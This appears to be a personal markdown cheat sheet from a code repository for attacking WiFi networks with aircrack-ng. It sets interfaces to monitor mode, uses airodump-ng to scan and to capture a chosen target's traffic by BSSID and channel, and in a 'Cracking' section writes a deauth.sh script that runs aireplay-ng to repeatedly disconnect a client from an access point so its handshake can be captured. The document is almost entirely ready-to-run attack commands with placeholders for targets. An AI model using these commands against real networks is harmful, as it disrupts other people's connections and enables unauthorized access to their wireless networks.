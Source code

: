 ## General

### AP `a`
```bash
1 apdo
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
12 power rate
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format csv --write sessions \
            --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format pcap --write CHANGEME \
            --channel CHANGEME --bssid CHANGEME wlan1
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel "${1}"

aireplay-ng -0 99 -D -a "${2}" -c "${3}" wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
